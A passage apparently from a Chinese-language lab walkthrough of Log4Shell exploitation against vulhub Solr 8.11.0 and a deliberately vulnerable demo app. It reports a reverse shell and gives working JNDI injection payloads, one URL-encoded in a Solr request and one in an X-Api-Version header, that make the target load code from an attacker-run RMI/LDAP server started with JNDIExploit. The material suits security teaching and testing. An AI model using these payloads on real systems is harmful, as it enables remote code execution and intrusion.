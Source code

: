 反弹shell成功

![image-20230711142555507](img/image-20230711142555507.png)

------



> **环境2：vulhub/solr:8.11.0  依赖了Log4j 2.14.1**

起jndi服务的步骤和命令一样，就是把接口地址改成`/solr/admin/cores?action=`

```http
GET /solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%30%30%2e%31%2e%31%2e%31%36%39%3a%31%30%39%39%2f%34%74%65%74%6f%33%7d  HTTP/1.1
Host: 192.168.1.189:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```



> **环境3：本地运行的，源码地址https://github.com/christophetd/log4shell-vulnerable-app**
>
> **同 vulfocus   ghcr.io/christophetd/log4shell-vulnerable-app:latest**  

这里也是解析JNDI，只是解析的地方变成了从请求头里传进去的参数

```
java -jar .\JNDIExploit-1.4-SNAPSHOT.jar -i 10.89.17.243
```

起LDAP服务

![image-20230711174730147](img/image-20230711174730147.png)

添加请求头`X-Api-Version`，内容为`${jndi:ldap://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==}`。
